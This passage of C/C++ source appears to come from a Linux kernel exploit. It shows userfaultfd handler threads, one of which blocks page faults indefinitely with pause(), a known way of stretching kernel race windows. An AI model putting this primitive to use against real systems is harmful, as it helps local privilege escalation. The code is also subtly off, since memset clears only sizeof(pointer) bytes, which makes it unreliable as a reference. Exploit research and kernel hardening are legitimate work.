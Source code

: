 ```cpp
	if (nready <= 0)
	{
		ErrExit("[-] msg err");
	}

	char* page = (char*) mmap(NULL, PAGE_SIZE, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
	if (page == MAP_FAILED)
	{
		ErrExit("[-] mmap err");
	}
	struct uffdio_copy uc;
	// init page
	memset(page, 0, sizeof(page));
	uc.src = (unsigned long) page;
	uc.dst = (unsigned long) msg.arg.pagefault.address & ~(PAGE_SIZE - 1);
	uc.len = PAGE_SIZE;
	uc.mode = 0;
	uc.copy = 0;
	ioctl(uffd, UFFDIO_COPY, &uc);
	puts("[+] sleep3 handler done");
	return NULL;
}

void* userfaultfd_stuck_handler(void* arg)
{
	struct uffd_msg msg;
	unsigned long uffd = (unsigned long) arg;
	puts("[+] stuck handler created");
	int nready;
	struct pollfd pollfd;
	pollfd.fd = uffd;
	pollfd.events = POLLIN;
	nready = poll(&pollfd, 1, -1);
	puts("[+] stuck handler unblocked");
	pause();
	if (nready != 1)
	{
		ErrExit("[-] Wrong poll return val");
	}
	nready = read(uffd, &msg, sizeof(msg));
	if (nready <= 0)
	{
		ErrExit("[-] msg err");
	}

	char* page = (char*) mmap(NULL, PAGE_SIZE, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
	if (page == MAP_FAILED)
	{
		ErrExit("[-] mmap err");
	}
	struct uffdio_copy uc;
	// init page
	memset(page, 0, sizeof(page));
	uc.src = (unsigned long) page;
	uc.dst = (unsigned long) msg.arg.pagefault.address & ~(PAGE_SIZE - 1);
	uc.len = PAGE_SIZE;
	uc.mode = 0;
	uc.copy = 0;
	ioctl(uffd, UFFDIO_COPY, &uc);
	puts("[+] stuck handler done");
	return NULL;
```